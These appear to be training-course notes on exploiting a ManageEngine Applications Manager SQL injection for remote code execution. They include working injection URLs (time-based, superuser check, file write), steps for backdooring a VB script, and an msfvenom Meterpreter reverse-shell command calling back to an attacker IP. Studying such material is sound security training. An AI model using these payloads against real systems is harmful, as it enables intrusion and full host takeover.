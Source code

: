 # ManageEngine SQLI to RCE
In this module we have demonstrated how to discover an unauthenticated SQL injection vulnerability using source code audit in a Java-based web application.
We then showed how to use time-based blind SQL injection payloads along with stack queries in order to exfiltrate database information.
Finally, we developed an exploit that utilized Postgres User Defined Functions and Large Objects to gain a fully functional reverse shell.
## Vulnerability Discovery
By browsing through the ManageEngine’s Application Manager web interface, we can see that most URLs contain the `.do` extension. `.do` extension is typically used in a URL mapping scheme for **compiled Java code**.
Java web applications use a deployment descriptor file named **`web.xml`** to determine how URLs map to servlets, which URLs require authentication, and other information.
### Source Code Analysis
- Search for SQL queries in the source decompiled code in notepad++ using regx: `^.*?query.*?select.*?` (this expression basically says: Look for any line that begins with any number of alphanumeric characters which is followed by the string `query` which is followed by a number of any characters which is followed by the string `select` which is followed by a number of any characters.)
- To reduce a web app’s attack surface, start with the front-end and review HTTP handlers. In Java servlets, these are easily found by their consistent naming pattern, like **`doGet`** and **`doPost`**.
- Enable PostgreSQL logging from its configuration file `postgresql.conf`, search for the string `log_statement`, uncomment the line then set its value to `all` and **restart the service** to apply the changes. Start inspecting the logs `Get-Content C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\pgsql_log\postgresql_13.log -wait -tail 1`
- `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;` by injecting a special character (`;`) into the vulnerable parameter, we can check the logs for any syntax errors to verify if the injection was successful using the following command: `Get-Content postgresql_13.log -tail 100 | Select-String -pattern "syntax error"`
## Exploitation
- PGSQL supports stacked queries `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;select+pg_sleep(10);`
- if the app filters the quotes `'`, PostgreSQL supports `$$` (dollar-quoting) as a replacement for single quotes (`'`) to simplify writing strings that contain literal quotes.
- The attacker tests a SQL injection vulnerability to confirm DBA privileges by using a payload that checks if `current_setting('is_superuser')` returns `"on"`. If true, it triggers a 10-second delay via `pg_sleep(10)`, confirming administrative access. `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+`
- Use SQLI to write to the file system `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+`
- Invistige if any VB scripts are being executed after performaing some action (Creating a Monitor in our case) via ProcMon. If we have ability to write to the file system, we can inject a backdoor into this VB script and it will be executed automatically by the application.
### Accessing the file system
#### Backdoor Crafting
1. **Making the original script one liner**
Match and replace roles in Notepad++ :
- `'.*` (remove the comments)
- ` _.*?\n` with `✅ matches newline` option enabled (remove continuation lines)
- `    ` (remove tabs)
- match `\n` replace with `:` (remove newline and replace it with `:` which is the VB script command terminator)
2. **Create reverse shell**
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```
Match and replace roles in Notepad++ (to make the payload oneliner):

- ` _.*?\n` with `✅ matches newline` option enabled (remove continuation lines)
- `    ` (remove tabs)
- match `\n` replace with `:` (remove newline and replace it with `:` which is the VB script command terminator) **If you copied from the terminal, match on `\n\r` instead of jsut `\n`**
- mach `::` replace with `:` **repeat this multiple times** (remove consecutive conlons and replace it by only one colon)
3. **Final Payload**
  We will paste out modified msfvenom payload just before `:WScript.Quit(0):`
  as: `Echo serviceData:Next:<PAYLOAD_HERE>:WScript.Quit(0):`
